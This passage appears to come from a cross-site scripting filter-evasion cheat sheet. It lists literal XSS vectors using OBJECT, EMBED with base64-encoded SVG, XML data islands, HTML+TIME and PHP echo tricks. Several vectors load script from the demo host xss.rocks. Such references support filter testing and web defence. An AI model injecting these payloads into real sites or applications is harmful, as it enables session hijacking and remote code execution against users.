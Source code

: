 #### OBJECT Tag¶
If the system allows objects, you can also inject virus payloads that can infect the users, etc with the APPLET tag. The linked file is actually an HTML file that can contain your XSS:
<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>

#### EMBED SVG Which Contains XSS Vector¶
This attack only works in Firefox:
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

(Thanks to nEUrOO for this one)
#### XML Data Island with CDATA Obfuscation¶
This XSS attack works only in IE:
<XML ID="xss"><I><B><IMG SRC="javascript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>

#### Locally hosted XML with embedded JavaScript that is generated using an XML data island¶
This attack is nearly the same as above, but instead it refers to a locally hosted (on the same server) XML file that will hold your XSS vector. You can see the result here:
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

#### HTML+TIME in XML¶
This attack only works in IE and remember that you need to be between HTML and BODY tags for this to work:
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>

(This is how Grey Magic hacked Hotmail and Yahoo!)
#### Assuming you can only fit in a few characters and it filters against .js¶
This attack allows you to rename your JavaScript file to an image as an XSS vector:
<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>

#### SSI (Server Side Includes)¶
This requires SSI to be installed on the server to use this XSS vector. I probably don't need to mention this, but if you can run commands on the server there are no doubt much more serious issues:


#### PHP¶
This attack requires PHP to be installed on the server. Again, if you can run any scripts remotely like this, there are probably much more dire issues:
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
